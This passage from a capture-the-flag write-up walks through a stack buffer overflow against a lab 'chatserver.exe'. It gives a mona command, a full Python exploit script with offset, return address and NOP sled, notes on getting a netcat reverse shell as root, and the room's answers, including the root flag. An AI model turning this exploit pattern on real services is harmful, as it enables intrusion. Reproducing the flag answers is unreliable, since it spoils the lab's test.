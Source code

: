   ```!mona compare -f C:\mona\chatserver\bytearray.bin -a 00DFEEA8```

* This generates shellcode, which has to be substituted as the value for payload variable in exploit script.

* In the exploit script, modify the IP from Windows machine to victim machine, and the retn variable with the jump point address.

* Also, in exploit script, modify the padding value to include ```"\x90" * 16```

* Final exploit script:

```python
import socket

ip = "10.10.3.116"
port = 9999
username = "dummy"
prefix = ""
offset = 2012
overflow = "A" * offset
retn = "\xdf\x14\x50\x62"
padding = "\x90" * 16
payload = ""
#insert shellcode in payload, enclosed in brackets
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  s.send(bytes(username + "\r\n", "latin-1"))
  s.recv(1024)
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Setup netcat listener, and run the exploit script against the victim machine; this gives us reverse shell as root - root flag can be found in drake's Desktop.

```markdown
1. How many ports are open? - 6 (actual answer is 3, but accepted answer is 6)

2. What is the name of the exe file you found? - chatserver.exe

3. After gaining access, what is the content of the root.txt file? - 5b1001de5a44eca47eee71e7942a8f8a
```

